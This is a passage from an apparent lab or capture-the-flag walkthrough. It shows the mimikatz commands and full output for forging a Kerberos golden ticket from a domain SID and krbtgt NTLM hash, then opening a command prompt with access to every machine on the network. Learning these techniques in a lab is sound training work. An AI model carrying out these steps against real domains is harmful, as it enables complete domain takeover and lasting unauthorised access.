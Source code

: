 We got:

1. `Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166` :arrow_right: ***S-1-5-21-849420856-2351964222-986696166***

2. `User : krbtgt` :arrow_right: `krbtgt`

3. 
```
* Primary                                                    
    NTLM : 5508500012cc005cf7082a9a89ebdfdf
```
:arrow_right: `5508500012cc005cf7082a9a89ebdfdf`

#### Now lets create a golden ticket:

Format:
```
kerberos::golden /user: /domain: /sid: /krbtgt: /id:<id of user>
```

```
mimikatz # kerberos::golden /user:Administrator /domain:controller.local /sid:S-1
-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id
:500
 
User      : Administrator                                                      
Domain    : controller.local (CONTROLLER)                                      
SID       : S-1-5-21-849420856-2351964222-986696166                            
User Id   : 500                                                                
Groups Id : *513 512 520 518 519                                               
ServiceKey: 5508500012cc005cf7082a9a89ebdfdf - rc4_hmac_nt                     
Lifetime  : 7/21/2021 5:00:40 PM ; 7/19/2031 5:00:40 PM ; 7/19/2031 5:00:40 PM 
-> Ticket : ticket.kirbi                                                       
                                                                               
 * PAC generated                                                               
 * PAC signed                                                                  
 * EncTicketPart generated                                                     
 * EncTicketPart encrypted                                                     
 * KrbCred generated                                                           
                                                                               
Final Ticket Saved to file !
```

#### Use the Golden Ticket to access other machine:

1. `misc::cmd` - This will open a new command prompt with elevated privileges to all machines.

```
mimikatz # misc::cmd                                                           
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF63F6A43B8 
                                                                            
```
2. Access other Machines! - You will now have another command prompt with access to all other machines on the network
